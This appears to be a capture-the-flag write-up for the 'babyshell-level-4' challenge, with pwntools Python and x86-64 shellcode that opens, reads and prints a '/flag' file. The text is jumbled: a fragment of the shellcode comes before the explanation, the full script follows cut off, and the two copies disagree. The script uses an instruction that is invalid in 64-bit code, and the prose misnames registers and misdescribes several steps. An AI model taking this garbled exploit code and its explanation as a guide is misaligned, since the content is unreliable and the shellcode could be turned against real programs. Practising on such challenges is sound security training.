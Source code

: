 ```python
push rsp
pop rsi
mov dl, 230
syscall

mov edx, eax
mov dil, 1
mov al, 1
syscall


xor edi, edi
mov al, 60
syscall

location:
  .string "/flag"
''')

p.sendline(shellcode)
p.interactive()
```

The first set make esi and edx zero. We then load the address of the string ``/flag``, It loads it into the eid register After that it wipes eax and moves 2 into the lowest 8 bytes of it. before using the syscal which opens the file.


The second set then copies the value returned from the syscall into edi. We then clear the eax register before loading it with a new syscall for read. We ten push the current rsp onto the stack. We then pop the top value in the stack and place it into rsi essentially holding /flag
After that we set the flag for the space then syscall reading the data.

Lastly we then store whatever was read by the previous syscall We then write the number of bytes that where read from the previous syscall.

hence we exit the programme.

```shell
from pwn import *

p = process("/challenge/babyshell-level-4")
context.arch = 'amd64'

shellcode = asm('''
xor esi, esi
xor edx, edx
lea edi, [eip + location]
xor eax, eax
mov al, 2
syscall

mov edi, eax
xor eax, eax
mov al, 0
push rsp
pop rsi
mov dl, 128
syscall

mov edx, eax
mov dil, 1
mov al, 1
syscall


```